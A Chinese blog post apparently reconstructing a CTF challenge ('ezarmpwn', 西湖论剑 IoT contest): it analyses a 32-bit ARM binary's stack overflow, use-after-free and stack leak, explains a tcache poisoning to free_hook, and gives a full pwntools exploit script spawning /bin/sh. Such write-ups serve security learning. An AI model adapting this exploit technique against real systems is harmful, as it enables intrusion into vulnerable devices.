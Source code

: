 ```yaml
---
layout: post
title: 西湖论剑IoT闯关赛复现
description: 有幸参加西湖论剑的比赛，虽然比赛结果不太理想，但每次比赛都会有很大的收获，我决定将这些东西写下来作为分享，如果有错误请批评指正
categories:  IoT
---
```










<!-- more -->

### ezarmpwn

#### 分析程序

首先查看程序保护机制

32位程序

libc是2.30

没有canary（基本是栈溢出）

无PIE(果然ez)

![](/images/character13/ezarmpwn1)

#### 静态分析

**register**

输入的username长度没有限制，然后复制到dest上,可实现栈溢出

![](/images/character13/ezarmpwn2)

---



**Add函数** 

可添加 size<=0x70的heap（tcache,fastbin)

![](/images/character13/ezarmpwn4)

---

**Delete**

UAF漏洞

![](/images/character13/ezarmpwn5)

---

**modify**

修改dest，由于dest是0x40大小，可以溢出0x8个字节,同时注意到buf是没有初始化的，我们可以通过这个泄漏栈里面的数据

![](/images/character13/ezarmpwn6)

---

**Info**

info打印username和password



#### 利用分析

1.泄漏地址

由于程序有个printf打印username和passwd,可通过将\x00覆盖得到想要的地址

通过分析username可以泄漏地址，分析passwd得知通过modify函数可以泄漏libc

* 0xfffef084是passwd的地址,可以看到里面有libc的地址![](/image/character13/ezarmpwn7)

2.利用分析

* 栈溢出控制返回地址

* UAF漏洞(tcache,fastbin,unsortedbin) **这里是32位系统，fastbin大小是0-0x50** 

  由于版本是libc-2.30.so

  而且我们只能使用add和free,所以tcache bin attack无法完成

  如果是fastbin attack也不行，因为只能申请 0xf 次

  但是我们可以用 overchunk 的思想

  通过合并堆块0和1之后再分配一个大的堆块2(unsortedbin的大小)，这样就可以伪造堆块1了

  由于是UAF，所以free掉堆块1就可以进入tcache了

  然后free掉堆块2，再分配一次可以将tcache改为free_hook就可以分配进去了

#### exp

```c

from pwn import *


context.log_level="debug"
def info():
   p.sendlineafter("> ","2")


def play():
   p.sendlineafter("> ","1")


def add(index,size,note):
   play()
   p.sendlineafter("> ","1")
   p.sendafter(": ",str(index))
   p.sendlineafter(": ",str(size))
   p.sendafter(": ",note)


def delete(index):
   play()
   p.sendlineafter("> ","2")
   p.sendlineafter(": ",str(index))
   
p=process(["qemu-arm","-g","1234","-L",".","./pwn3"])
#p = remote("20.20.11.14", 9999)


un="aaaaa"
pd1="bbbbb"
pd2="bbbbb"
p.sendlineafter(":",un)
p.sendlineafter(":",pd1)
p.sendlineafter(":",pd2)
p.sendline("")


p.sendlineafter("> ","3")
p.sendlineafter(":","a"*0x20)
p.sendline("")


info()
p.recvuntil(": ")
libc=u32(p.recv(4))+0xff69cba0-0x044ba0-0xff68a248
# print hex(libc)


for i in range(9):
   add(i,0x40,"aaaa\n")
add(15,6,"a\n") #0x10
add(14,6,"a\n") #0x10
delete(15) 
delete(14) #tcache[0x10]=14->15
for i in range(9):
   delete(8-i) #fastbin=0->1 
free_hook = libc + 0x1479cc
system    = libc + 0x3a028
add(9,0x70,"a"*0x40+p32(0)+p32(0x11)+p32(0)*3+p32(0x39)+"\n") #overchunk
delete(1) #tcache[0x10] = 1->14->15
delete(9)  
add(10,0x70,"a"*0x40+p32(0)+p32(0x11)+p32(free_hook)*3+p32(0x39)+p32(libc+0x1479cc)+"\n")
add(11,8,"/bin/sh\x00")
add(12,8,p32(libc+0x3a028)+"\n")
# print hex(libc+0x1479cc)
delete(11)
p.interactive()
```

#### 参考

exp参考chamd5的wp,如果分析有错请批评指正

邮箱:VinadiakT@outlook.com



